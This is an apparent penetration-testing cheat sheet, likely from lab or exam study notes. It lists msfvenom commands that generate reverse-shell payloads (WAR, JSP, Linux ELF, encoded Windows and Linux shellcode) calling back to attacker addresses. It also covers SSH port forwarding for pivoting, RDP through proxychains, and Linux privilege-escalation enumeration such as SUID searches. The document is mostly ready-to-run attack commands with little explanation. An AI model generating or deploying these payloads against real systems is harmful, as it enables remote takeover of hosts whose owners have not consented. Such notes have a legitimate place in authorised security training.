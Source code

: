 #### WAR
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.119.137 LPORT=4444 -f war > shell.war`

#### JSP
This also works for Cold Fusion instead of the crazy web shell
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.119.137 LPORT=4444 -f raw > shell.jsp`

#### Linux Binary
`msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.49.133 LPORT=443 -f elf > shell.elf`

#### Shell Code
`msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\3d"` encode bad characters, windows shell.

`msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -b "\x00\x20" -f py -v shellcode` Linux, with python output as an option.


## Tunneling and Pivoting

Local port forwarding. Example below allows access to services on pandora.htb, only available on localhost.  
`ssh -L 127.0.0.1:9050:pandora.htb:80 daneil@pandora.htb`

Dynamic port forwarding.  
`ssh -D 9050 root@52.133.0.19`  


### RDP Cheats  
Use *xfreerdp* if rdesktop ever fails by giving you `Certificate recieved from server is NOT trusted by this sytem,...`  

 `proxychains4 xfreerdp /u:dev /v:10.0.0.5:3389`    

## Privilege Escalation
### Linux

`sudo -l`, if there's anything interesting like running scripts as users with `NOPASSWD: ALL`.

#### Distro Version
* `cat /etc/issue`

#### Kernel Version and Architecture
* `uname -r `
* `arch`

#### Find Writable Directories
`find / -writable -type d 2>/dev/null`

#### View SUID Binaries
`find / -perm -u=s -type f 2>/dev/null`
